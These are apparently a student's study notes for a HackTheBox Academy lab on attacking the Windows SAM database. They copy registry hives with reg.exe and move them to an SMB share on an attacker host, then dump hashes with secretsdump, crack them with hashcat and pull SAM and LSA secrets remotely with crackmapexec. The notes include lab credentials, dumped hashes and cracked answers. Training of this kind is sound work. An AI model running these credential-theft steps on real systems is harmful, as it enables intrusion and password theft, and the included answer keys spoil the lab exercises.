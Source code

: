 ### Copying SAM Registry Hives

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

#### Copy Registry Hives via reg.exe

```powershell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

>[! Note ] 
> Use Impacket's smbserver.py to move the hive copies to a share created on the attack host


###### Syntax for smbserver.py
```python
sudo python3 smbserver.py -smb2support Name_of_Share /path/to/share/on/attack/host
```

When share is running on attack host, use the `move` command on Windows to move the hive copies to the share
```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
1 file(s) moved.
```

### Dumping Hashes with Impackets secretsdump.py

Ensure to specify each hive file you've retrieved
```python
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

>[! Warning] secretsdump cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database

### Cracking Hashes via Hashcat

The `-m` flag cracks NT hashes (NTLM based hashes). Verify at [hashcat's wiki](https://hashcat.net/wiki/doku.php?id=example_hashes)
```go
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Remote Dumping and LSA Secrets Considerations

You can also extract LSA Secrets over the network i.e., from a running service, scheduled task or application that uses LSA secrets to store passwords

**Dumping LSA Secrets Remotely**
```go
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

**Dumping SAM Remotely**
```go
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## Questions

IP
```go
10.129.3.177
```

User
```
Bob
```

Password
```
HTB_@cademy_stdnt!
```

SSH
```go
ssh Bob@STMIP
```


Question 1: Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.

```go
xfreerdp /v:10.129.3.177 /u:Bob /p:HTB_@cademy_stdnt! /cert:ignore
```

First, dump the SAM database
```go
crackmapexec smb 10.129.3.177 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

Found 8 hashes!

| Username/Account   | Hash                                                                      |
| ------------------ | ------------------------------------------------------------------------- |
| Administrator      | 500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  |
| Guest              | 501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  |
| DefaultAccount     | 503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  |
| WDAGUtilityAccount | 04:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::   |
| bob                | 1001:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6::: |
| jason              | 1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc::: |
| ITbackdoor         | 1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321::: |
| frontdesk          | 1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71::: |

Put the hashes in a text file and crack them with Hashcat

```go
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

Cracked passwords as listed:
```go
a3ecf31e65208382e23b3420a34208fc:mommy1                   
c02478537b9727d391bc80011c2e2321:matrix                   
31d6cfe0d16ae931b73c59d7e0c089c0:                         
58a478135a93ac3bf058a5ea0e8fdb71:Password123 
```

Question 3: Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)

```go
crackmapexec smb 10.129.3.177 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

![[attacking_sam_q3.png]]
